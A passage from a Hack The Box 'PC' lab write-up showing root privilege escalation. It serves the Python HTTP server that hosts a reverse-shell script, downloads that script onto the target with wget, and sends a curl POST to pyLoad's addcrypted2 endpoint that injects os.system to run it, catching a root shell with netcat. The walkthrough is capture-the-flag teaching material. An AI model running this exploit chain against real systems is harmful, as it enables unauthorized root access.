 ```
┌──(matt㉿HackTheBoxKali)-[~/Pc]
└─$ python3 -m http.server 8010                                                                          
Serving HTTP on 0.0.0.0 port 8010 (http://0.0.0.0:8010/) ...
10.10.11.214 - - [13/Jun/2023 11:07:42] "GET /rev.sh HTTP/1.1" 200 -

````
Host the file containing the reverse shell with a simple Python HTTP server.  

```
sau@pc:~$ cd /tmp
sau@pc:/tmp$ wget http://10.10.14.20:8010/rev.sh
--2023-06-13 01:37:11--  http://10.10.14.20:8010/rev.sh
Connecting to 10.10.14.20:8010... connected.
HTTP request sent, awaiting response... 200 OK
Length: 95 [text/x-sh]
Saving to: ‘rev.sh’

rev.sh                                                      100%[========================================================================================================================================>]      95  --.-KB/s    in 0s      

2023-06-13 01:37:11 (3.08 MB/s) - ‘rev.sh’ saved [95/95]

sau@pc:/tmp$ chmod +x rev.sh

```
Download the file from the HTTP server to the target host using Wget, then give the file executable permissions.  

```
┌──(matt㉿HackTheBoxKali)-[~/Pc]
└─$ nc -lvnp 4242
listening on [any] 4242 ...
```
Start a Netcat listener on the port where the reverse shell will connect to.  

```
┌──(matt㉿HackTheBoxKali)-[~/Pc]
└─$ curl -i -s -k -X $'POST' \ 
    --data-binary $'jk=pyimport%20os;os.system(\"/tmp/rev.sh\");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' \                                                     
    $'http://127.0.0.1:8000/flash/addcrypted2

    .... HANG....
```
Now lets execute the reverse shell using the exploit, the command will appear to hang.  

```
┌──(matt㉿HackTheBoxKali)-[~/Pc]
└─$ nc -lvnp 4242                 
listening on [any] 4242 ...
connect to [10.10.14.20] from (UNKNOWN) [10.10.11.214] 52412
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# pwd
/root/.pyload/data

```
Back at our Netcat listener we receive a connection from the target, running the 'id' command and you can see we are the root user.  


[//]: # (Project: HTB Machine Writeups - Generated with Python3)  
[//]: # (Title: HTB PC Writeup)  
[//]: # (Author: M4773L)  
[//]: # (Date: 16/06/2023 - 08:19 PM)  
[//]: # (Date_Modified: ) 
[//]: # (WEBSITE_URL: http://m4773l.github.io)
[//]: # (GITHUB_REPO_URL: https://github.com/M4773L)